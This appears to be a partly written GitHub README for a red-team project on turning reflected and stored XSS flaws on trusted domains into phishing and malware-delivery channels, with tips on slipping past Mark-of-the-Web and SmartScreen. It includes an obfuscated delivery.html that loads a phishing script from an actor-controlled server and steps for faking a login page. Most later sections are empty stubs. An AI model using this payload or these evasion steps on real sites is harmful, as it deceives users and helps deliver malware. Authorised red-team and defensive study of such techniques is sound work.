

# lauraops07 XSS at its finest. "Weaponizing XSS vulnerabilities for Red Team engagements."


## Table of Contents
- [Introduction: The resurrection of web exploitation](#introduction-the-resurrection-of-web-exploitation)
- [Use Case](#use-case)
- [What about MotW?](#what-about-motw)
- [Lab](#lab)
- [Type I](#type-i---reflected-xss)
    - [I - Payload Delivery](#i---payload-delivery)
    - [I - Phishing](#i---phishing)
    - [I - Clickfix](#i---clickfix)
    - [I - HTML Smuggling](#i---html-smuggling)
- [Type II](#type-ii---stored-xss)
    - [II - Payload Delivery](#ii---payload-delivery)
    - [II - Phishing](#ii---phishing)
    - [II - Clickfix](#ii---clickfix)
    - [II - HTML Smuggling](#ii---html-smuggling)
- [Type-0](#type-0---dom-based-xss)
- [Extra Miles: CRLF Injection](#extra-miles-crlf-injection)
- [Limitations](#limitations)
- [Resources](#resources)

## Introduction: The resurrection of web exploitation 
Most red team members are giving their 100% to be creative in crafting the "perfect" phishing attack completely ignoring the web exploitation aspect and its capabilities.

And no, I'm not talking about gaining initial access through RCEs by exploiting a CVE or using noisy exploits that the SOC is already aware of and has rules in place for. I'm talking about simple client side attacks like XSS, which, with a bit of effort, can save time. For example, they can eliminate the need to constantly spin up new domains or wait for a domain to "mature" before it's usable in an engagement.

To be clear: I’m not claiming to have invented something brand new. Threat actors are using similar way to fool their victims(compromising wordpress sites or web applications in general). What I’m doing is connecting the dots and approaching it in what I hope is a more thoughtful, "crafty" way.

## Use Case
During red team engagements while recon phase(passive, active), we may discover a simple XSS vulnerability in forgotten client's domain (webapp without WAF attached on it) that doesn't appear immediately useful. For example we might not be able to steal sensitive data like cookies because the application is just a basic webpage with minimal functionality. However, since the application is hosted under a legitimate client's domain, it can still be exploited as a trusted delivery mechanism to weaponize, distribute malware and phish unsuspecting victims.

## What about MotW?
MotW can be a real headache for red teamers. When a file is downloaded from an untrusted source, Windows adds metadata that marks it. Then, when you try to run it, SmartScreen can block/warn the user.

But lets think about the following scenario: You’re already inside the client’s network, you might find a local intranet app with XSS vulnerability. You could use that to deliver your payload. Since it’s coming from local intranet (Zone ID 2) , MotW doesn’t get applied, and that gives a better chance to your payload to get executed.

Another one: The client's domains (*.client.net) might belong to Zone ID 2, which gives a better change to not trigger SmartScreen while execution.

| Zone ID | Displayname | Description |
|---|---|---|
| 0 | Computer | Your computer |
| 1 | Local intranet | This zone contains all Web sites that are on your organization’s intranet. |
| 2 | Trusted sites | This zone contains Web sites that you trust not to damage your computer or data. |
| 3 | Internet | This zone contains all Web sites you haven’t placed in other zones |
| 4 | Restricted sites | This zone contains Web sites that could potentially damage your computer or data. |

[https://isc.sans.edu/diary/31732](https://isc.sans.edu/diary/31732)

## Lab
The lab contains a simple Dockerized application written in Python using Flask. Follow the commands below to build and run it.
```bash
$ cd /webapp
$ sudo bash build.sh
```

## Type I - Reflected XSS
Weaponizing refrected XSS - Non-Persistent. This is one of the most overlooked types of XSS, primarily because it requires user interaction such as tricking the victim into clicking a malicious link. However, with a bit of creativity this type of XSS can be exploited in surprisingly powerful ways.



Before showcasing the implemented techniques certain requirements must be met for reflected XSS.
- The actor already has a web server hosting JavaScript templates, as URL length restrictions prevent passing the entire payload directly.
- The actor's web server has CORS enabled with * (wildcard) allowing anyone to fetch resources from it. For demo: [scenarios/templates/server.py](/scenarios/templates/server.py)

### I - Payload Delivery
Well. Even if you're not in the cybersecurity industry you might still recognize what an XSS payload looks like so it's important to obfuscate the URL or HTML.
- URL encoding x2
- HTML with embedded javascript containing the rediction URL encoded e.g. base64.
- Future work: more obfuscation techniques.

Ofcourse, there are many other ways to obfuscate it for better OPSEC.

Example (delivery.html):
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title></title>
    <script>
        window.onload = function () {
            let blob = "aHR0cDovL2xvY2FsaG9zdDoxMzM3Lz91c2VybmFtZT1uaW5qYWtpPHNjcmlwdCBzcmM9Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MS9qcXVlcnkucGhpc2hpbmcuanMiPjwvc2NyaXB0Pg==";
            <!-- 
                http://localhost:1337/?username=ninjaki<script src="http://localhost:8081/jquery.phishing.js"></script>
            -->

            window.location.href = atob(blob);
        };
    </script>
</head>
<body>
</body>
</html>
```


### I - Phishing

The vulnerable application already has its CSS styles and DOM content loaded (including JavaScript and HTML). Therefore, to successfully perform the attack, some modifications must be made:
- Clear the existing CSS styles
- Clear the existing HTML/DOM content
- Change the window title based on the scenario
- Inject new HTML content along with custom CSS
- Inject the necessary JavaScript
- Replace the browser history/URI state with something that appears legitimate e.g. `/login`, `/admin`


### I - Clickfix


### I - HTML Smuggling


## Type II - Stored XSS
Weaponizing Stored XSS - Persistent. This type of XSS occurs when user input is stored on target server e.g. database and requires no the user interaction to trigger the javascript code.

### II - Payload Delivery


```javascript
if (window.location.search.replace("?","") === "b01829f1f013fe3bf52f026d6e053a7a"){
    //canary detected
} else { //this else could be removed
    //canary not detected
}
```

### II - Phishing

### II - Clickfix

### II - HTML Smuggling

## Type-0 - DOM Based XSS
"Future work"

## Extra Miles: CRLF Injection
"Future work"

## Limitations
- Delivering the `.html` file with javascript code is not tested through "secure" mail gateways and sandbox tools in general.

## Resources
- [https://owasp.org/www-community/Types_of_Cross-Site_Scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/)
